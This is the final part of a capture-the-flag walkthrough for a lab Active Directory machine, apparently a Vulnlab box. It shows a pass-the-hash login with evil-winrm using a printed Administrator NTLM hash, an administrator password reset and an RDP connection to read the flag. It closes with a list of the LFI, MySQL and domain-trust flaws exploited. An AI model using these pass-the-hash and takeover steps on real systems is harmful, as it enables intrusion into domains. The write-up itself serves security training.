 ### Getting the flag
Using the NTLM-Hash of the Administrator, we can connect to the machine
```powershell
evil-winrm -i trusteddc.trusted.vl -u administrator -H 15db914be1e6a896e7692f608a9d72ef
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

However, we are unable to open `root.txt`
```
PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ cat ../Desktop/root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand

```

In such cases it's useful to check out the remote desktop to easily see the problem. We first set the password:

```powershell
C:\Users\Administrator\Documents> net user administrator "Password1234$"
```

Then connect via `xfreerdp`:

```bash
xfreerdp /v:10.10.250.53 /u:Administrator /p:"Password1234$"
```
On the remote desktop the file can be opened normally:

![Opening the Flag on the remote desktop is easy](/images/vulnlab_trusted/remote_desktop_rootflag.png)


# Vulnerabilities and Misconfigurations
1. Local File Inclusion on `labdc.lab.trusted.vl/dev` → `view` parameter
2. MySQL user running with high privileges
3. Domain trust between `lab.trusted.vl` and `trusted.vl`


# Notes
The web shell seems unintended. There seems to be another path via leaked credentials in the MySQL database.
